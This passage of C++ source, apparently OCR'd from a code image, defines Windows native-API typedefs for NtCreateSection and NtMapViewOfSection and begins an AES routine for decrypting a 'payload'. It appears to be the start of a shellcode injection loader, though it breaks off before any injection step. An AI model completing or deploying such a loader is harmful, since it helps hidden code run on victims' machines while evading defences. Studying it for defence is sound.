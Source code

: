```c++
	OUT PVOID lpBytesBuffer);

typedef struct _UNICODE_STRING {
	USHORT Length;
	USHORT MaximumLength;
	_Field_size_bytes_part_(MaximumLength, Length) PWCH Buffer;
} UNICODE_STRING, *PUNICODE_STRING;

// https://processhacker.sourceforge.io/doc/ntbasic_8h_source.html#l00186
typedef struct _OBJECT_ATTRIBUTES {
	ULONG Length;
	HANDLE RootDirectory;
	PUNICODE_STRING ObjectName;
	ULONG Attributes;
	PVOID SecurityDescriptor; // PSECURITY_DESCRIPTOR;
	PVOID SecurityQualityOfService; // PSECURITY_QUALITY_OF_SERVICE
} OBJECT_ATTRIBUTES, *POBJECT_ATTRIBUTES;

// https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-zwcreatesection
// https://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FNT%20Objects%2FSection%2FNtCreateSection.html
typedef NTSTATUS (NTAPI * NtCreateSection_t)(
	OUT PHANDLE SectionHandle,
	IN ULONG DesiredAccess,
	IN POBJECT_ATTRIBUTES ObjectAttributes OPTIONAL,
	IN PLARGE_INTEGER MaximumSize OPTIONAL,
	IN ULONG PageAttributess,
	IN ULONG SectionAttributes,
	IN HANDLE FileHandle OPTIONAL); 

// https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-zwmapviewofsection
// https://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FNT%20Objects%2FSection%2FNtMapViewOfSection.html
typedef NTSTATUS (NTAPI * NtMapViewOfSection_t)(
	HANDLE SectionHandle,
	HANDLE ProcessHandle,
	PVOID * BaseAddress,
	ULONG_PTR ZeroBits,
	SIZE_T CommitSize,
	PLARGE_INTEGER SectionOffset,
	PSIZE_T ViewSize,
	DWORD InheritDisposition,
	ULONG AllocationType,
	ULONG Win32Protect);
	
// http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FNT%20Objects%2FSection%2FSECTION_INHERIT.html
typedef enum _SECTION_INHERIT {
	ViewShare = 1,
	ViewUnmap = 2
} SECTION_INHERIT, *PSECTION_INHERIT;	



int AESDecrypt(char * payload, unsigned int payload_len, char * key, size_t keylen) {
	HCRYPTPROV hProv;
	HCRYPTHASH hHash;
	HCRYPTKEY hKey;

	if (!CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)){
			return -1;
	}
	if (!CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash)){
```